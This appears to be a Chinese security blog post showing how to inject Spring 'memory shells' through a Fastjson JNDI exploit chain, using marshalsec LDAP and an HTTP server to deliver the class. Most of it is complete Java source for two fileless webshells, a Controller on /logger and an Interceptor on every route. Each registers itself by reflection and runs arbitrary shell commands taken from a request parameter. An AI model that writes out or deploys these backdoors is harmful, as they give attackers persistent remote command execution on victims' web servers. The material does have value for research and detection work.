






前言
前面看了Spring的两种内存马，这次来尝试一下Fastjson注入Spring内存马。
注入Controller内存马
这里写一个控制器接受参数去parse解析。
{kind=link}
使用marshalsec开启一个LDAP服务器。
{kind=link}
用python3开启http server，等待接收LDAP转发来的请求。
{kind=link}
payload触发JNDI链接LDAP服务器，从http服务器上下载内存马的class文件。
{kind=link}
检验内存马执行命令。
{kind=link}
Controller内存马源码
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
public class ControllerShell {
public ControllerShell() throws ClassNotFoundException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, InvocationTargetException {
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
// 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
// 个别老旧项目使用旧式注解映射器要通过DefaultAnnotationHandlerMapping获取实例bean
// RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(DefaultAnnotationHandlerMapping.class);
// 2. 通过反射获得自定义 controller 中的 Method 对象
Method method2 = ControllerShell.class.getMethod("parseRequest");
// 3. 定义访问 controller 的 URL 地址
PatternsRequestCondition url = new PatternsRequestCondition("/logger");
// 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
// 5. 在内存中动态注册 controller
RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
// 创建用于处理请求的对象，加入“aaa”参数是为了触发第二个构造函数避免无限循环
ControllerShell injectToController = new ControllerShell("nil");
mappingHandlerMapping.registerMapping(info, injectToController, method2);
}
// 第二个构造函数
public ControllerShell(String nil) {
}
// controller指定的处理方法
public void parseRequest() throws IOException {
// 获取request和response对象
HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
//exec
try {
String arg0 = request.getParameter("code");
PrintWriter writer = response.getWriter();
if (arg0 != null) {
String o = "";
java.lang.ProcessBuilder p;
if (System.getProperty("os.name").toLowerCase().contains("win")) {
p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
} else {
p = new java.lang.ProcessBuilder(new String[]{"/bin/bash", "-c", arg0});
}
java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
o = c.hasNext() ? c.next() : o;
c.close();
writer.write(o);
writer.flush();
writer.close();
} else {
//当请求没有携带指定的参数(code)时，返回 404 错误
response.sendError(404);
}
} catch (Exception e) {
}
}
public static void main(String[] args) {
System.out.println("gengeral injectioning");
}
}注入Interceptor内存马
步骤跟前面一样，下面Interceptor内存马的代码在访问所有路由都会触发一次判断。 如果要指定路由触发的话，还要用MappedInterceptor指定path和对应重写preHandle方法的类。
{kind=link}
Interceptor内存马源码
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
public class InterceptorShell implements HandlerInterceptor {
// 任意路由触发
public InterceptorShell() throws Exception {
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
AbstractHandlerMapping abstractHandlerMapping = context.getBean(AbstractHandlerMapping.class);
Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
field.setAccessible(true);
java.util.ArrayList<Object> Interceptors = (java.util.ArrayList<Object>) field.get(abstractHandlerMapping);
// 避免重复添加
for (int i = Interceptors.size() - 1; i > 0; i--) {
if (Interceptors.get(i) instanceof InterceptorShell) {
System.out.println("[-] repeated!!!");
return;
}
}
java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>) field.get(abstractHandlerMapping);
InterceptorShell memoryInterceptor = new InterceptorShell("aaa");
adaptedInterceptors.add(memoryInterceptor);
}
public InterceptorShell(String nil) {
}
@Override
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
String command = request.getParameter("log");
if (command != null) {
try {
java.io.PrintWriter writer = response.getWriter();
String o = "";
ProcessBuilder p;
if (System.getProperty("os.name").toLowerCase().contains("win")) {
p = new ProcessBuilder(new String[]{"cmd.exe", "/c", command});
} else {
p = new ProcessBuilder(new String[]{"/bin/bash", "-c", command});
}
java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
o = c.hasNext() ? c.next() : o;
c.close();
writer.write(o);
writer.flush();
writer.close();
} catch (Exception e) {
return false;
}
return false;
}
return true;
}
@Override
public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
}
@Override
public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
}
public static void main(String[] args) {
System.out.println("general InterceptorShelling");
}
}There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.